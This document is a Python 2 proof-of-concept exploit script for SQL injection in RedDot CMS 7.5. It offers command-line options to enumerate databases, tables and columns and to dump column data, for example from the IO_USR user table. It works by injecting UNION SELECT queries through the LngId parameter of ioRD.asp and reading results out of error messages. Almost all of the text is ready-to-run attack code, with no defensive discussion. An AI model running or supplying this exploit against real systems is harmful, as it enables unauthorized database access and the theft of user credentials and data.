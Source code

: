 POC
---

    #!/usr/bin/env python

    # un-comment your selection.

    import urllib2
    import urllib
    import string
    import getopt
    import sys

    def banner():
      print
      print "RED DOT CMS 7.5 database enumeration"
      print "by Mark Crowther and Rodrigo Marcos"

    def usage():
      print
      print "usage():"
      print "python RD_POC.py [options] URL"
      print
      print " [options]"
      print "    --dbenum: Database enumeration"
      print "    --tableenum: Table enumeration, use -d to specify database"
      print "    --colenum: Column enumeration, use -d to specify database and -t to specify table"
      print "    --dataenum: Data enumeration, use -d to specify database, -t to specify table and -c to specify a column"
      print "    -d: Specify a database"
      print "    -t: Specify a table"
      print "    -c: Specify a column"
      print "    -h: Help page"
      print
      print "Examples: "
      print "    python RD_POC.py --dbenum http://myhost/cms/"
      print "    python RD_POC.py --tableenum -d IoAdministration http://myhost/cms/"
      print "    python RD_POC.py --colenum -d IoAdministration -t IO_USR http://myhost/cms/"
      print "    python RD_POC.py --dataenum -d IoAdministration -t IO_USR -c USR2 http://myhost/cms/"
      print
      sys.exit()

    def retrievedata(url1, url2 = "' ORDER BY 1;-- &DisableAutoLogin=1"):
      stop = 0

      current = ''

      while (stop==0):

        request = url1 + current + url2

        request = string.replace(request, ' ', '%20')
        req = urllib2.Request(request)
        try:
          r = urllib2.urlopen(req)
        except urllib2.URLError, msg:
          print "[+] Error: Error requesting URL (%s)" % msg
        result = r.read()

        #print result
        if string.find(result, ' Description  Conversion failed when converting the ') == -1:
          stop = 1
        else:
          start = string.find(result, "'") + 1
          end = string.find(result[start:], "'") + start
          current = result[start:end]
          print current


    def dbenum():

      retrievedata(url + "/ioRD.asp?Action=ShowMessage&LngId=ENG.DGC0 FROM IO_DGC_ENG UNION SELECT min(name) FROM SYS.SYSDATABASES where name> '")

    def tableenum(database=''):

      if database=='':
        retrievedata(url + "/ioRD.asp?Action=ShowMessage&LngId=ENG.DGC0 FROM IO_DGC_ENG UNION SELECT min(name) FROM SYSOBJECTS where xtype=char(85) and name> '")

      else:
        retrievedata(url + "/ioRD.asp?Action=ShowMessage&LngId=ENG.DGC0 FROM IO_DGC_ENG UNION SELECT min(name) FROM " + database + "..SYSOBJECTS where xtype=char(85) and name> '")

    def colenum(table, database=''):

      if table=='':
        usage()

      if database=='':
        retrievedata(url + "/ioRD.asp?Action=ShowMessage&LngId=ENG.DGC0 FROM IO_DGC_ENG UNION SELECT min(name) FROM SYSCOLUMNS where name > '", "' AND id = (SELECT id from SYSOBJECTS WHERE name= '" + table + "') ORDER BY 1;-- &DisableAutoLogin=1")
      else:
        retrievedata(url + "/ioRD.asp?Action=ShowMessage&LngId=ENG.DGC0 FROM IO_DGC_ENG UNION SELECT min(name) FROM " + database + "..SYSCOLUMNS where name > '","' AND id = (SELECT id from " + database + "..SYSOBJECTS WHERE name= '" + table + "') ORDER BY 1;-- &DisableAutoLogin=1")


    def dataenum(column, table, database=''):

      if column=='' or table=='':
        usage()

      if database=='':
        retrievedata(url + "/ioRD.asp?Action=ShowMessage&LngId=ENG.DGC0 FROM IO_DGC_ENG UNION SELECT MIN(" + column + ") FROM " + table + " WHERE " + column + "> '")

      else:
        retrievedata(url + "/ioRD.asp?Action=ShowMessage&LngId=ENG.DGC0 FROM IO_DGC_ENG UNION SELECT MIN(" + column + ") FROM " + database + ".." + table + " WHERE " + column + "> '")


    banner()
    pdbenum = 0
    ptableenum = 0
    pcolenum = 0
    pdataenum = 0
    database = ''
    table = ''
    column = ''

    url =  sys.argv[len(sys.argv)-1]

    try:
      opts, args = getopt.getopt(sys.argv[1:], "d:t:c:h:", ["help", "dbenum", "tableenum", "colenum", "dataenum"])
    except getopt.GetoptError:
      usage()

    try:
      for o, a in opts:
        if o in ("-h", "--help"):
          usage()
        if o == "--dbenum":
          pdbenum = 1
        if o == "--tableenum":
          ptableenum = 1
        if o == "--colenum":
          pcolenum = 1
        if o == "--dataenum":
          pdataenum = 1
        if o == "-d":
          database = a
        if o == "-t":
          table = a
        if o == "-c":
          column = a
    except:
      usage()


    if pdbenum == 1:
      print 'Enumerating databases:'
      dbenum()
    elif ptableenum == 1:
      print 'Enumerating tables:'
      tableenum(database)
    elif pcolenum == 1:
      print 'Enumerating columns:'
      colenum(table, database)
    elif pdataenum == 1:
      print 'Enumerating data:'
      dataenum(column, table, database)
    else:
      usage()